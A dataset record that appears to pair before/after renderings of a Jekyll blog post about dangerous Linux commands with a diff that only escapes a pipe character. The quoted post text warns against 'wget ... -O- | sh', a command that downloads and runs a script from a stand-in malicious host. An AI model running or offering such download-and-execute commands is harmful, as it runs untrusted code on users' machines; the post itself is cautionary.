

Before and after one commit to DropAll/dropall.github.io, a Jekyll site: the page built from _posts/2016-10-24-10-most-cangerous-commands.md, in a window 1280 px wide and 900 px high, scrolled down 4184 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries.

```diff
--- a/_posts/2016-10-24-10-most-cangerous-commands.md
+++ b/_posts/2016-10-24-10-most-cangerous-commands.md
@@ -94,6 +94,6 @@ Here’s an innocent command that can actually be useful in day-to-day life on a
 > wget http://an-untrusted-url -O- \| sh
 
 
-**wget http://malicious_source -O- | sh** command will download a script from a malicious source and then execute it. Wget command will download the script and sh will execute the downloaded script.The above combination downloads the contents of the given URL and immediately feeds it to the **sh** command, which executes the downloaded contents in the terminal. If the URL were to point to a malicious script, you’d be sealing your own fate with this command.
+**wget http://malicious_source -O- \| sh** command will download a script from a malicious source and then execute it. Wget command will download the script and sh will execute the downloaded script.The above combination downloads the contents of the given URL and immediately feeds it to the **sh** command, which executes the downloaded contents in the terminal. If the URL were to point to a malicious script, you’d be sealing your own fate with this command.
 
 Font [TechWorm](http://www.techworm.net/2016/10/10-lethal-linux-commands-never-execute.html)
```
